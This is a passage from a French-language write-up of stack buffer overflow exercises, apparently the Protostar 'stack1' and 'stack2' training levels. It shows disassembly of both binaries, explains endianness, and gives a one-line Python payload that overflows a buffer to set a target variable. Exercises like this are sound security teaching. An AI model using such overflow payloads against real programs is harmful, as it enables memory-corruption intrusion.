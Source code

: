 ```nasm
0x080484be      jmp     0x80484d5
0x080484c0      mov     edx, dword [var_5ch]
0x080484c4      mov     eax, str.Try_again__you_got_0x_08x ; 0x80485f3
0x080484c9      mov     dword [src], edx
0x080484cd      mov     dword [esp], eax ; const char *format
0x080484d0      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x080484d5      leave
0x080484d6      ret
```

On voit `0x61626364` donc `dcba` en raison de [l'endianness](https://fr.wikipedia.org/wiki/Boutisme). C'est facile d'y parvenir :

```shellsession
$ $ ./stack1 `python -c 'print "dcba" * 18'`
you have correctly got the variable to the right value
```

## Level 2

La leçon ici est qu'on ne pourra pas parvenir à tout en utilisant seulement bash. Le programme ici copie le contenu d'une variable d'environnement vers un buffer sur la stack.

```nasm
int main (int argc, char **argv, char **envp);
; var const char *src @ esp+0x4
; var char *dest @ esp+0x18
; var int32_t var_58h @ esp+0x58
; var char *var_5ch @ esp+0x5c
0x08048494      push    ebp
0x08048495      mov     ebp, esp
0x08048497      and     esp, 0xfffffff0
0x0804849a      sub     esp, 0x60
0x0804849d      mov     dword [esp], str.GREENIE ; 0x80485e0 ; const char *name
0x080484a4      call    getenv     ; sym.imp.getenv ; char *getenv(const char *name)
0x080484a9      mov     dword [var_5ch], eax
0x080484ad      cmp     dword [var_5ch], 0
0x080484b2      jne     0x80484c8
0x080484b4      mov     dword [src], str.please_set_the_GREENIE_environment_variable ; 0x80485e8
0x080484bc      mov     dword [esp], 1 ; int eval
0x080484c3      call    errx       ; sym.imp.errx ; void errx(int eval)
0x080484c8      mov     dword [var_58h], 0
0x080484d0      mov     eax, dword [var_5ch]
0x080484d4      mov     dword [src], eax ; const char *src
0x080484d8      lea     eax, [dest]
0x080484dc      mov     dword [esp], eax ; char *dest
0x080484df      call    strcpy     ; sym.imp.strcpy ; char *strcpy(char *dest, const char *src)
0x080484e4      mov     eax, dword [var_58h]
0x080484e8      cmp     eax, 0xd0a0d0a
0x080484ed      jne     0x80484fd
0x080484ef      mov     dword [esp], str.you_have_correctly_modified_the_variable ; 0x8048618 ; const char *s
0x080484f6      call    puts       ; sym.imp.puts ; int puts(const char *s)
0x080484fb      jmp     0x8048512
0x080484fd      mov     edx, dword [var_58h]
0x08048501      mov     eax, str.Try_again__you_got_0x_08x ; 0x8048641
0x08048506      mov     dword [src], edx
0x0804850a      mov     dword [esp], eax ; const char *format
0x0804850d      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x08048512      leave
0x08048513      ret
```
